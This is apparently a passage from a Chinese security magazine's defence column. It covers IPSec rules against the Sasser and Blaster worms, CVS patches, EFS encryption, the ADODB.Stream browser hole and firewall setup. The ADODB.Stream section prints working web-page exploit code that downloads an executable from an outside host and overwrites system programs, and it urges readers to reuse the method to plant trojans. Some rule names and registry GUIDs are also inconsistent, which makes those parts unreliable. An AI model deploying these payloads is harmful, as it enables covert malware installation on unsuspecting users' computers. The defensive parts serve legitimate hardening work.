再比如，要删除“Port Define”筛选和以前创建的两个规则，可以使用以下命令：

```bash
ipsecpol -w REG -p "Port Define" -r "Block Inbound UDP 1434 Rule" -r "Block Outbound UDP 1434 Rule" -x
```

### 实例分析

### 1. “震荡波”病毒

“五一”期间，“震荡波”病毒爆发。它能在网络上自动搜索系统有漏洞的电脑，并直接引导这些电脑下载病毒文件并执行，因此整个传播和发作过程不需要人为干预。只要这些用户的电脑没有安装补丁程序并接入互联网，就有可能被感染。漏洞的起因在于 LSA 服务发送超长字符串可导致缓冲区溢出，进而执行任意代码，完全控制系统。

“震荡波”病毒利用上述漏洞，在系统上取得控制权后，打开 9996 端口并绑定 cmd.exe，然后连接上来，通过 FTP 将蠕虫自身传输到系统目录下（如 74354_up.exe）。传输完毕后蠕虫文件会被执行，并进行以下操作：

- 将自身拷贝到 `%SystemRoot%\avserve.exe` 并在注册表主键中添加启动项。
- 在 `C:\` 根目录创建 `win.log`，记录本地主机 IP。
- 在本地 5554 端口建立 FTP 服务器用于传播。
- 扫描并攻击网络上的其他主机 TCP/445 端口，成功后在对方主机 TCP 9996 端口启动 Shell 并回连。

```reg
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

avserve.exe = %SystemRoot%\...
```

由于该蠕虫使用的溢出代码不够完善，受攻击系统运行一段时间后 LSASS.EXE 可能崩溃并导致系统重启。蠕虫传播还会造成系统性能下降和网络带宽大量占用。因此必须对 UDP 135、137、138、445 及 TCP 135、139、445、593 进行过滤，同时要屏蔽端口 5554 和 9996。

首先，减轻漏洞隐患。可以通过创建日志文件暂时消除蠕虫利用漏洞的条件：在命令提示符下输入 `echo dcpromo > %systemroot%\debug\dcpromo.log`，然后设置只读属性：`attrib +R %systemroot%\debug\dcpromo.log`。

把来自外部对上述标明端口的连接过滤，并禁止发送 ICMP 包。创建策略名为 Zdb，设置命令如下（为方便读者，单条列出）：

```bash
ipsecpol -w REG -p "Zdb" -r "Block Inbound TCP 135 Rule" -f *+0:135:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Outbound TCP 135 Rule" -f 0+*:135:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Inbound TCP 137 Rule" -f *+0:137:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Outbound TCP 137 Rule" -f 0+*:137:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Inbound TCP 138 Rule" -f *+0:138:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Outbound TCP 138 Rule" -f 0+*:138:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Inbound TCP 445 Rule" -f *+0:445:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Outbound TCP 445 Rule" -f 0+*:445:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Inbound TCP 4444 Rule" -f *+0:5554:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Outbound TCP 4444 Rule" -f 0+*:5554:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Inbound TCP 9996 Rule" -f *+0:9996:TCP -n BLOCK
...
```

```bash
ipsecpol -w REG -p "Zdb" -r "Block Inbound TCP 593 Rule" -f *+0:593:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Outbound TCP 593 Rule" -f 0+*:593:TCP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Inbound ICMP Rule" -f *+0:ICMP -n BLOCK
ipsecpol -w REG -p "Zdb" -r "Block Outbound ICMP Rule" -f 0+*:ICMP -n BLOCK
```

然后激活这个安全策略，命令是：

```bash
ipsecpol -w REG -p "Zdb" -x
```

> 注意：如果是过滤传出的，只要把 * 和 0 互换，把 Inbound 改成 Outbound 即可。当我们不需要这样的安全策略时，可以将它们删除掉。

```bash
ipsecpol -w REG -p "Zdb" -y  // 先用-y参数不指派这个策略
ipsecpol -w REG -p "Zdb" -o  // 然后用-o参数删除
```

## 2．冲击波病毒

“冲击波”利用的端口有 TCP 135 和 4444 端口、UDP 69 端口，还会发送 ICMP 数据包。与 RpcDcom 有关的端口包括 TCP 135、445、139、593，以及 UDP 135、137、138、445。为了防范“冲击波”蠕虫，需要过滤来自外部对上述端口的连接，并禁止 ICMP 包；若主机已感染，还应阻止主机向外发送数据。

```bash
ipsecpol -w REG -p "Anti Blaster" -r "Block Inbound TCP 135 Rule" -f *+0:135:TCP -n BLOCK
ipsecpol -w REG -p "Anti Blaster" -r "Block Outbound TCP 135 Rule" -f 0+*:135:TCP -n BLOCK
ipsecpol -w REG -p "Anti Blaster" -r "Block Inbound TCP 4444 Rule" -f *+0:4444:TCP -n BLOCK
ipsecpol -w REG -p "Anti Blaster" -r "Block Outbound TCP 4444 Rule" -f 0+*:4444:TCP -n BLOCK
ipsecpol -w REG -p "Anti Blaster" -r "Block Inbound UDP 69 TFTP Rule" -f *+0:69:UDP -n BLOCK
ipsecpol -w REG -p "Anti Blaster" -r "Block Outbound UDP 69 TFTP Rule" -f 0+*:69:UDP -n BLOCK
ipsecpol -w REG -p "Anti Blaster" -r "Block Inbound ICMP Rule" -f *+0:ICMP -n BLOCK
ipsecpol -w REG -p "Anti Blaster" -r "Block Outbound ICMP Rule" -f 0+*:ICMP -n BLOCK
```

要激活这个安全策略，命令是：`ipsecpol -w REG -p "Anti Blaster" -x`。如需提高防护，可继续禁止 RPC 相关端口连接。

```bash
ipsecpol -w REG -p "Block RPC Attack" -r "Block Inbound UDP 135 Rule" -f *+0:135:UDP -n BLOCK
ipsecpol -w REG -p "Block RPC Attack" -r "Block Inbound TCP 135 Rule" -f *+0:135:TCP -n BLOCK
ipsecpol -w REG -p "Block RPC Attack" -r "Block Inbound UDP 137 Rule" -f *+0:137:UDP -n BLOCK
ipsecpol -w REG -p "Block RPC Attack" -r "Block Inbound UDP 138 Rule" -f *+0:138:UDP -n BLOCK
ipsecpol -w REG -p "Block RPC Attack" -r "Block Inbound TCP 139 Rule" -f *+0:139:TCP -n BLOCK
ipsecpol -w REG -p "Block RPC Attack" -r "Block Inbound TCP 445 Rule" -f *+0:445:TCP -n BLOCK
ipsecpol -w REG -p "Block RPC Attack" -r "Block Inbound UDP 445 Rule" -f *+0:445:UDP -n BLOCK
ipsecpol -w REG -p "Block RPC Attack" -r "Block Inbound TCP 593 Rule" -f *+0:593:TCP -n BLOCK
```

激活这个安全策略的命令是：

```bash
ipsecpol -w REG -p "Block RPC Attack" -x
```

上面只过滤了传入连接请求。若要过滤传出，把 * 和 0 互换，并将 Inbound 改为 Outbound。若要删除“冲击波”防护策略：

```bash
ipsecpol -w REG -p "Anti Blaster" -y  // 先用-y参数不指派这个策略
ipsecpol -w REG -p "Anti Blaster" -o  // 然后用-o参数删除
```

也可以通过批处理实现。启用筛选后，在注册表中可见：`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters` 的 `EnableSecurityFilters` 发生变化；在 `...\Tcpip\Parameters\Interfaces` 下多个 UUID 子键也会变化。对于其他漏洞可按实际情况制定 IPSec 策略；若有更便捷杀毒工具，建议优先使用杀毒软件。

### tips：防范 MyDoom.B 病毒

MyDoom.B 与 MyDoom 不同，它会将攻击矛头指向微软，并可能造成拒绝服务。其传播与后门行为会消耗网络资源并带来安全风险。

MyDoom.B 在受感染机器上会打开 TCP 80、1080、3128、8080、10080 等端口。防火墙规则应更精细，不应仅简单封禁 TCP 80。若主机不提供 Web 服务，可阻断对 80/8080 的访问；若提供服务，可结合邮件过滤与 IDS 自动封禁等方式进行防范。


## 开源项目

### 防范CVS漏洞

CVS 漏洞出现后，针对开源代码的服务器攻击明显增多。如何确保这些开源项目的安全，成为很多厂商关心的话题。防范此漏洞，要经常登录 https://www.cvshome.org/ 关注补丁，并关注其他相关厂家的补丁。针对常见的安全漏洞，我们可以从以下几个方面来解决。

### 1. DoS漏洞

在创建临时文件时没有使用安全的 mktemp 函数，它只是简单地将当前时间（秒）附加到已知文件名后。这是一个“竞争条件”安全漏洞。可以使用 server.c 中的 mktemp(3) 函数或者其他任何可以产生唯一文件名的方法来弥补。我们看看下面的例子会带来什么样的安全问题：

```c
char *maketemp()
{
    char *name="/tmp/tempfile";
    creat(name, 0644);
    chown(name, 0, 0);
    return name;
}
```

在上面的情况下，没有检查函数的返回值。如果攻击者将 UNIX SHELL `/bin/sh` 链接为 `/tmp/tempfile`，creat() 函数会不成功执行。使用 mktemp 函数创建临时文件，mktemp 函数需要一个以“XXXXXX”为后缀的文件名……因此，一个防范的简便方法是换用别的替代程序，或者修改源码，将所有的 mktemp() 调用换成 mkstemp()。

另外，在 `/tmp/` 目录所在的分区使用空间配额也能解决部分问题。不过，关键在于预先防范，将系统补丁打好。

### 2. 远程路径漏洞

对远程泄露路径漏洞，可以用下面的几个方法来实现防护。

#### （1）下载补丁

CVS 已经公布了相关的补丁程序，地址如下：

```text
http://ccvs.cvshome.org/servlets/ProjectDownloadList?action=download&dlID=466
http://ccvs.cvshome.org/servlets/ProjectDownloadList?action=download&dlID=468
```

各厂商也发布了升级补丁以修复这个安全问题，厂商的主页下载如下：

- Source archives 链接
- http://security.debian.org/pool/updates/main/c/cvs/cvs_1.11.1pl1debian-9woody2.dsc
- http://security.debian.org/pool/updates/main/c/cvs/cvs_1.11.1pl1debian-9woody2.diff.gz
- http://security.debian.org/pool/updates/main/c/cvs/cvs_1.11.1pl1debian.orig.tar.gz
- Intel IA-32 architecture 链接
- http://security.debian.org/pool/updates/main/c/cvs/cvs_1.11.1pl1debian-9woody2_i386.deb
- Intel IA-64 architecture 链接
- http://security.debian.org/pool/updates/main/c/cvs/cvs_1.11.1pl1debian-9woody2_ia64.deb
- HP Precision architecture 链接
- http://security.debian.org/pool/updates/main/c/cvs/cvs_1.11.1pl1debian-9woody2_hppa.deb
- Motorola 680x0 architecture 链接
- http://security.debian.org/pool/updates/main/c/cvs/cvs_1.11.1pl1debian-9woody2_m68k.deb
- PowerPC architecture 链接
- http://security.debian.org/pool/updates/main/c/cvs/cvs_1.11.1pl1debian-9woody2_powerpc.deb
- IBM S/390 architecture 链接
- http://security.debian.org/pool/updates/main/c/cvs/cvs_1.11.1pl1debian-9woody2_s390.deb
- Sun Sparc architecture 链接
- http://security.debian.org/pool/updates/main/c/cvs/cvs_1.11.1pl1debian-9woody2_sparc.deb
- FreeBSD公告：ftp://ftp.freebsd.org/pub/FreeBSD/CERT/advisories/FreeBSD-SA-04:07.cvs.asc
- RedHat公告（RHSA-2004:154-01）：https://www.redhat.com/support/errata/RHSA-2004-154.html

最方便的方法是使用下面的命令来下载补丁软件：

```bash
# wget url（url是补丁下载链接地址）
```

#### （2）安装补丁

手工安装补丁包的方法如下：

```bash
# dpkg -i file.deb（file是相应的补丁名）
```

或者使用 apt-get 自动安装补丁包，首先使用下面的命令更新内部数据库：

```bash
# apt-get update
```

然后，使用下面的命令安装更新软件包：

```bash
# apt-get upgrade
```

另外，如果是 FreeBSD，首先要将有漏洞的系统升级到 4-STABLE，或修订日期后的 5.2、RELENG_4_9 或 RELENG_4_8 安全版本。

## 3．堆溢出漏洞的防护

目前厂商已经发布了升级补丁以修复这个安全问题，可到以下相关地址下载：

- CVS Upgrade cvs-1.11.16.tar.gz
- http://ccvs.cvshome.org/servlets/ProjectDownloadList?action=download&dlID=489
- CVS Upgrade cvs-1.12.8.tar.gz
- http://ccvs.cvshome.org/servlets/ProjectDownloadList?action=download&dlID=491
- Debian公告与补丁：DSA-505-1（New cvs packages fix remote exploit）
- http://www.debian.org/security/2002/dsa-505
- Source archives补丁下载（security.debian.org下多个deb/diff/tar.gz）
- Alpha architecture补丁下载
- ARM architecture补丁下载

手工安装补丁的方法可以使用如下命令：

```bash
# wget url（url是补丁下载链接地址）
```

然后，使用下面的命令来安装补丁：

```bash
# dpkg -i file.deb（file是相应的补丁名）
```

使用 apt-get 自动安装补丁包：首先，使用下面的命令更新内部数据库：

```bash
# apt-get update
```

然后，使用下面的命令安装更新软件包：

```bash
# apt-get upgrade
```

另外，如果是 FreeBSD，首先要将有漏洞的系统升级到 4-STABLE，或修订日期后的 5.2、RELENG_4_9 或 RELENG_4_8 安全版本。或者为当前系统打补丁。

如果需要从攻击原理上防范，还可以参考 malloc 函数的使用方法。其功能是分配一定长度的内存块。如果分配成功则返回指向被分配内存的指针，否则返回空指针 NULL。当内存不再使用时，应使用 free() 函数将内存块释放。

```c
#include <syslib.h>
#include <alloc.h>
main()
{
  char *p;
  clrscr(); // clear screen
  p=(char*)malloc(100);
  if(p)
    printf("Memory Allocated at: %x",p);
  else
    printf("Not Enough Memory\n");
  free(p);
  getchar();
  return 0;
}
```

实际上，类似的漏洞在其他软件上已经出现很多次了。虽然 CVS 这个软件对一般用户的影响不是很大，但对于开源代码软件用户来说，可谓影响深远。本文所提出的防范方法也借鉴了其他软件的防范方法。因此，也需要对同类软件的漏洞多加借鉴，从而免受攻击之苦。

## CMD下加密NTFS目录文件夹和文件

举例来看：

- 1. 加密 F 盘下的 efs 目录，在命令提示符窗口进入到“F:\>”提示符下，然后运行“cipher /e efs”命令，系统提示正在加密目录并完成加密。若要加密该目录下所有子目录，运行“cipher /e /s:efs”。
- 2. 加密目录中的“chat.txt”文件，在命令提示符中运行“cipher /e /a efs\chat.txt”，系统提示文件加密完成。若要加密该目录下所有文件，运行“cipher /e /a efs\*”。

加密后可用 cipher.exe 查询哪些目录和文件被加密。例如输入“cipher efs”可查看目录是否加密；输入“cipher efs\*”可查看目录中哪些文件已加密。

解密目录可运行“cipher /d efs”；解密目录下所有子目录可运行“cipher /d /s:efs”；解密文件“chat.txt”可运行“cipher /d /a efs\chat.txt”；解密该目录所有文件可运行“cipher /d /a efs\*”。

## 再谈 ADODB.Stream 漏洞防护


难度等级：中  
适合读者：脚本爱好者、普通网民  
文/图：彭文波

> 脚本小子：ADODB.Stream 对象是一个用于通过 Microsoft Internet Explorer 进行网络数据流传输的组件。通过 ADODB.Stream 对象，远程攻击者可以在目标用户系统上安装恶意文件……因此我们特写此文，再从“实用”的角度给大家介绍一下 ADODB 漏洞的防护方法。

这个漏洞比较常用的方法是攻击者会先建立一个网站，用免费电影等内容来吸引用户，并利用恶意网页木马对这些用户进行攻击。通过 IE 浏览器的漏洞，把任意恶意病毒放到用户的机器上，从而造成很严重的后果。

根据目前的情况，带有恶意代码的网站大都是中文成人网站、非正规电影网站，并且不排除已经有人通过改进这些代码来编写更厉害的木马病毒。

通过 ADODB.Stream 对象，可以将攻击者指定的文件写入或者覆盖到目标文件系统中……目前这个漏洞还没有完整的官方补丁，并且适用于 Windows 98 到 Windows 2003 的所有 IE！

```vbscript
Set oStr = CreateObject("ADODB.Stream")
oStr.Mode = adModeReadWrite
oStr.Type = adTypeBinary
oStr.Open
...
oStr.Write(contents)
oStr.SaveToFile "c:\\test.exe", adSaveCreateOverWrite
```

### 攻击步骤详解

为了便于说明，首先给出一个网页例子，主要讲述 ADODB 和 XMLHTTP 对象的一些知识。在这个代码中，目标用户的记事本程序会被来自 http://ip3e83566f.speed.planet.nl/NOTEPAD.EXE 的程序覆盖……具体的使用格式我们将逐步介绍：

```vbscript
<script language="vbscript">
const adTypeBinary = 1
const adSaveCreateOverWrite = 2
const adModeReadWrite = 3

Set xmlHTTP = CreateObject("Microsoft.XMLHTTP")
xmlHTTP.open "GET", "http://ip3e83566f.speed.planet.nl/NOTEPAD.EXE", false
xmlHTTP.send
contents = xmlHTTP.responseBody
...</script>
```

在上面的例子中，MSXML 中提供了 Microsoft.XMLHTTP 对象，能够完成从数据包到 Request 对象的转换以及发送任务。创建 XMLHTTP 对象的语句如下：

```vbscript
Set objXML = CreateObject("Msxml2.XMLHTTP")
或
Set objXML = CreateObject("Microsoft.XMLHTTP")
```

```text
poster.open http-method, url, async, userID, password
```

| 参数 | 说明 |
|---|---|
| http-method | HTTP 的通信方式，比如 GET 或 POST |
| url | 接收 XML 数据的服务器 URL 地址 |
| async | 是否异步通信（true/false） |
| userID | 用户 ID，用于服务器身份验证 |
| password | 用户密码，用于服务器身份验证 |

XMLHTTP 对象的 Send 方法。用 Open 方法对 Request 对象进行初始化后，调用 Send 方法发送 XML 数据：

```text
poster.send XML=data
```

Send 方法的参数类型是 Variant，可以是字符串、DOM 树或任意数据流。发送数据的方式分为同步和异步两种。在异步方式下，数据包一旦发送完毕，就结束 Send 进程，客户端执行其他的操作；而在同步方式下，客户端要等到服务器返回确认消息后才结束 Send 进程。XMLHTTP 对象中的 ReadyState 属性则能够反映出服务器在处理请求时的进展状况。客户端的程序还可以根据这个状态信息设置相应的事件处理方法。属性值及其含义如下表所示：

| 值 | 说明 |
|---|---|
| 0 | Response 对象已经创建，但 XML 文档装载过程尚未结束 |
| 1 | XML 文档已经装载完毕 |
| 2 | XML 文档已经装载完毕，正在处理中 |
| 3 | 部分 XML 文档已经解析 |
| 4 | 文档已经解析完毕，客户端可以接受返回消息 |

客户机处理响应信息。客户机接收到返回消息后进行简单地处理，基本上就完成了 C/S 之间的一个交互周期。客户机接收响应是通过 XMLHTTP 对象的属性实现的：

| 属性 | 说明 |
|---|---|
| responseTxt | 将返回消息作为文本字符串 |
| responseXML | 将返回消息视为 XML 文档，在服务器响应消息中含有 XML 数据时使用 |
| responseStream | 将返回消息视为 Stream 对象 |

了解了这些参数的使用方法，我们再看上面的程序，是不是觉得眼熟多了。下面，我们来看看目标客户的程序是怎么被覆盖的。为了进一步描述此方法，下面再给出一段比较典型的代码，读者朋友只要了解其中的大致用法即可，在后面我们还会给出一个完整的例子。这是一个覆盖 Windows Media Player 媒体播放器 Wmplayer.exe 的例子。

```javascript
var x = new ActiveXObject("Microsoft.XMLHTTP");
x.Open("GET", "http://attacker/trojan.exe", 0);
x.Send();

var s = new ActiveXObject("ADODB.Stream");
s.Mode = 3;
s.Type = 1;
s.Open();
s.Write(x.responseBody);

s.SaveToFile("c:\\Program Files\\Windows Media Player\\wmplayer.exe", 2);
location.href = "mms://";
```

通过以上的讲解，我们可以了解到这样一个共同现象：要在目标用户系统上安装恶意文件，必须要使用到 ADODB.Stream 对象，同时最好结合 XMLHTTP 对象；当用户在浏览这个网页时，我们就可以悄悄地把一个来自固定网站的文件装到用户的机器上。如果不懂复杂的 XMLHTTP 对象怎么办？本文还给急于了解此漏洞的读者提供了一个完整的网页实例。

代码来自 http://www.malware.com。首先，我们打开一个记事本，将代码另存为“self-exec.html”文件。具体代码如下：

```vbscript
<script language="vbscript">
' ...
jelmersArray = array(...)

win2k="c:\\winnt\\system32\\notepad.exe"
win2ok="c:\\winnt\\notepad.exe"
winxp="c:\\windows\\system32\\notepad.exe"
winxpee="c:\\windows\\notepad.exe"
win98="c:\\windows\\notepad.exe"
win98ate="c:\\windows\\system32\\notepad.exe"

Function toString(payloadArray)
  For Each arrayElement In payloadArray
    toString = toString & ChrB(arrayElement)
  Next
End Function

Const adTypeBinary = 1
Const adTypeText = 2
Const adSaveCreateOverWrite = 2

set jelmer = CreateObject("Adodb.Stream")
jelmer.Type = adTypeText
jelmer.Open
jelmer.WriteText toString(jelmersArray)
jelmer.Position = 0
jelmer.Type = adTypeBinary
jelmer.Position = 2
bytearray = jelmer.Read
jelmer.Close

set malware = CreateObject("Adodb.Stream")
malware.Type = adTypeBinary
malware.Open
malware.Write bytearray
On Error Resume Next
malware.savetofile(win2k), adSaveCreateOverWrite
On Error Resume Next
malware.savetofile(win2ok), adSaveCreateOverWrite
On Error Resume Next
malware.savetofile(winxp), adSaveCreateOverWrite
On Error Resume Next
malware.savetofile(winxpee), adSaveCreateOverWrite
On Error Resume Next
malware.savetofile(win98), adSaveCreateOverWrite
On Error Resume Next
malware.savetofile(win98ate), adSaveCreateOverWrite
On Error Resume Next
malware.close

document.location="view-source:"+document.location.href
</script>
<body bgcolor="#d7d7d7" scroll=no>
<center><b> ...
<font style="font-size:2cm;font-family:arial" color="#ff0000">ju<sup>n</sup>k.w<sub>a</sub>re</font></b></center>
```

然后，将这个代码放到任何一个网页空间，如果想得到对方机器中的某些文件，或者想植入某个木马文件，也可以仿效此方法。本例可以覆盖目标用户机器上的“notepad.exe”文件。演示效果如图 1 所示。


图 1

现在，假设有个用户打开了这个网页，就会自动调用 ADODB.Stream 对象将他的 Notepad.exe 文件覆盖。有心计的朋友如果把这个记事本程序做成了木马（不会告诉我不知道怎么做吧），呵呵，后面的事情可就要三思而后行了。如果需要在网页中调用，还可以结合第一步、第二步的代码，编写出一些经典的攻击代码。

## ADODB.Stream 漏洞防范

微软公司暂时未对 ADODB.Stream 对象文件安装漏洞发布补丁，因此，该漏洞可能很快会被网络中泛滥成灾的网页木马利用。目前，各大杀毒站点已经推出了 ADODB.Stream 组件漏洞防范工具。

### 1. 金山毒霸

该软件的下载地址为：http://db.kingsoft.com/download/3/155.shtml。

软件下载后，直接运行，选择“卸载 ADODB.Stream 组件”按钮即可。等将来微软公司的补丁出来后，单击“恢复 ADODB.Stream 组件”即可。如图 2 所示。


图 2

### 2. 瑞星

该软件的下载地址为：http://download.rising.com.cn/zsgj/Fix_ADODB.Stream.exe。

瑞星公司的站点已经将这个漏洞标记为“橙色（二级）安全警报”，而且微软的 IE 浏览器最近发现多个安全缺陷，利用这些危险漏洞的恶意代码已经在网上频频出现。根据瑞星实验室的测试结果，在 Windows 2000/XP 系统下，即使给系统打上最新补丁，也无法防止攻击者对此缺陷的利用，感染的几率相当高。足见此漏洞可能带来的危害。下载该软件后，运行界面如图 3 所示。


图 3

采取以上措施后，我们发现，代码不能正常执行了，这样就避免了系统入侵。在浏览器的左下角出现一个黄色的警告，双击这个警告图标，弹出如图 4 所示的窗口，表明 ActiveX 部件不能创建对象“ADODB.Stream”，即告成功。如图 4 所示。


图 4

### 3. 其他措施

再说说非官方安全补救方法，其实很简单，用 IE 的 KillBit 功能屏蔽掉 ADODB.Stream 危险调用就可以，对正常上网无任何影响。使用此方法之前，我们来看看一个屏蔽的例子，其原理和屏蔽 ActiveX 调用一样。

```reg
REGEDIT5

#B83F0C27-3522-4CC6-92EC-75CC86678DA4 /3721
#9A578C98-3C2F-4630-890B-F004196EE420 /CNNIC
#CF051549-DDE1-40E5-B440-B0D6460FD023 /POPO
#4EDBBAEA-E509-49E6-94D1-ECEC4BE5B686 /变哎啦
#BC207F7D-3E63-4ACA-99B5-FB5F8428200C /Baidu
#9BBC1154-218D-453C-97F6-A06582224D81 /Baidu
#00000566-0000-0010-8000-00AA006D2EA4 /Adodb.Stream 2.7
#4B106874-DD36-11D0-8B44-00A024DD9EFF /Adodb.Stream 2.5

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{B83FC273-3522-4CC6-92E0-75CC86678DA4}]
"Compatibility Flags"=dword:00000400

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{9A578C98-3C2F-4630-8908-FC04196EF420}]
"Compatibility Flags"=dword:00000400

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{CF051549-EDE1-40F5-B440-BCD646CF2C25}]
"Compatibility Flags"=dword:00000400

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{4EDBBAEA-F509-49F6-94D1-ECEC4DE5B686}]
"Compatibility Flags"=dword:00000400

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{BC207F7D-3E63-4ACA-99B5-FB5F8428200C}]
"Compatibility Flags"=dword:00000400

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{9BBC1154-218D-453C-97F6-A06582224D81}]
"Compatibility Flags"=dword:00000400

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{00000566-0000-0010-8000-00AA006D2EA4}]
"Compatibility Flags"=dword:00000400

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{4B106874-DD36-11D0-8B44-00A024DD9EFF}]
"Compatibility Flags"=dword:00000400
```

将上述代码保存为 Register.reg 文件，双击直接写入注册表即可。上述方法表示将 Compatibility Flags 的 DWORD 值改为 00000400。如果我们只要屏蔽 ADODB.Stream，删除 3721/CNNIC/POPO/中文邮/Baidu 等选项相关的条目即可。其中，ADODB.Stream 控件值为：{00000566-0000-0010-8000-00AA006D2EA4} 和 {4B106874-DD36-11D0-8B44-00A024DD9EFF}。注意保存为“.reg”文件时，一定要将“REGEDIT5”写进去。如果你的系统是 Windows 98，只要将第一行的 REGEDIT5 改为 REGEDIT4 即可。

由于这个漏洞被发现的时间不是特别长，目前微软还没有相应的补丁，但编写攻击代码的思路大同小异，都离不开 ADODB.Stream，当然，还必须对基本的 HTML 语言比较熟悉，懂点 ASP 知识尤佳。如果不小心撞进了一些成人站点或者国外的恶意站点时，可要小心了。另外，建议用户随时关注微软的主页，以获取最新浏览器版本：http://www.microsoft.com/windows/ie/default.asp。

## 漏洞攻击防范 / EXPLOIT ATTACK DEFENCE

（栏目编辑/脚本小子）scriptsboy@hacker.com.cn

### 切断侵入 Windows 2003 的通道

- 1. **切断文件访问通道**：NTFS 格式的分区不但提供文件夹权限控制功能，而且还有文件加密，本项可以有效控制文件夹的安全访问。
- 2. **切断默认共享通道**：Windows 2003 系统在缺省安装时会自动产生默认的 c$、d$ 等共享文件夹，需要禁止非法访问共享资源。
- 3. **切断远程扫描通道**：在默认状态下，Windows 2003 的远程注册表访问路径并不为空，因此黑客能利用扫描器轻松地通过远程注册表访问到系统中的相关信息。为此，你必须将远程可以访问到的注册表路径全部清除，以便切断远程扫描通道。
- 4. **切断默认服务通道**：缺省状态下 Windows 提供了不少服务，其中有很多是比较危险的，最好将一些用不到但可能给系统造成安全威胁的服务关闭掉。
- 5. **切断自动保存通道**：Windows 2003 系统一旦在访问程序出错时，系统中的 Dr.Watson 程序会将出错的一些个人隐私信息自动保存下来，这些隐私信息往往是黑客最喜欢“盯梢”的。为了避免泄露隐私信息，你应该切断 Dr.Watson 程序的自动保存功能。

| 适合读者 | 网络管理员 |
|---|---|
| 前置知识 | 基本网络结构 |
| 难度等级 | 低 |

**脚本小子：** 防火墙在我们的心目中一直是个防止 DoS 攻击、防止非法端口连接的东西，但这些都是硬件防火墙的特殊待遇。普通的软件防火墙很难实现理想功能。不过本文介绍的这款防火墙除了常规端口过滤外，还有防数据库下载、防非法扫描、防非法参数提交（页面）、防 DDoS、自动屏蔽恶意 IP、蜜罐等功能。


### 打造专业级软件防火墙

文/图 Sarin

各位菜鸟网管们还在使用 SkyNet Personal Firewall 保护自己的服务器吗？是不是还在为防止数据库被下载而伤透脑筋？无穷无尽的扫描是不是让你头痛欲裂？现在我就给大家介绍一个配置简单而功能强大的数据包级防火墙，保证你的 Server 安全无忧。

> **脚本小子：** SkyNet Personal Firewall 是什么东西？不就是那个防火墙么……

先看看这次的主角：DeerField.Com VisNetic Firewall v2.2。它是著名 Visnetic 系列服务器软件的一员，基于数据包过滤策略，整合 HTTP Filter 和 IP Ban，并且配置简单、可远程管理。

> **脚本小子：** “IP Ban” 经常在网上看到，有人问为什么 Ban 我的 IP 啊？其实 IP Ban 就是封 IP 的意思。

### Firewall Configuration Wizard

软件安装很简单，一路回车即可。到配置策略阶段后，选择“Use the Configuration Wizard to make the ruleset”，通过向导初步配置防火墙规则；也可以选择安装后手动配置。


下一步是询问网络连接方式：是仅连接 Internet，还是同时连接本地局域网与 Internet（网关）。在 VMware 环境下通常选择同时连接局域网与 Internet。


> **VMware：** 一种常见虚拟机软件，可在一台电脑上运行多个操作系统。

向导还会询问局域网中的其他计算机是否以本机作为 Internet 网关。根据实际部署回答 YES 或 NO。随后进入网卡识别与用途选择页面，为识别出的各网卡分别配置角色。


## 漏洞攻击防范 / EXPLOIT ATTACK DEFENCE

网卡下面 6 个选项的意思分别是：局域网网卡、Internet 网卡、Internet Modem、内部接入 Modem、不使用的网卡。因为要讲的是网络服务器配置，我们这里选择 Internet Adapter 这条主线，如图 3 所示。

这步是选择网络用途，两个选项复选，分别是：用此网卡浏览网页收发 Email 等；我同时在本机上运行一种以上的网络服务系统。全部勾选，如图 4 所示。


选择运行在本机，或以此为网关的局域网上的需要联网的客户端软件。常见的软件大都在下面列出，如 IE、MSN、ICQ 等，如图 5 所示。选择好点下一步，填入 DNS Server，再下一步选择本机服务项目。


> 这里配置是按照“普通”的网关服务器配置的，没有限制 ICQ、MSN 等程序对网络的访问；实际情况下如果是配置单一网络服务器，这些程序对网络的访问权限最好还是去掉比较保险。

到此为止，一个网卡的配置算是基本完成了。如果还有别的网卡，向导还会继续带领你进行配置，难度不大，不再赘述。最后向导会把所有配置信息列出来，如图 6 所示，如有不对的可以重新配置、编辑，完成后保存。然后就是配置远程管理，填入端口和访问密码，下一步弹出框选择 YES，读入新配置信息，再下一步选择 YES 让防火墙随系统自动启动。


最后一步，当防火墙没有启动成功或者被异常关闭的时候（即防火墙没有运行的情况下），是允许一切的网络流量还是基于安全考虑阻止一切的网络访问。我选择 Block（阻止），如图 7 所示，到此为止配置完成。

### 防火墙规则配置

一个防火墙最关键的就是规则配置了。如果上面的基本配置是基础的话，这里的规则配置就是让防火墙真正发挥功效的地方了。我把 Vmnet1 配置成了 Internet 网卡，客户端只允许 Web browser，服务为 FTP-Server、Mail-Server、Web Server 和 Https Server。Firewall 自动生成的 TCP 规则如图 8 所示。


软件默认是没有明确的规则就阻止包进站，可以在对应网卡的 Configuration 选项卡上点 Advanced 进行修改。

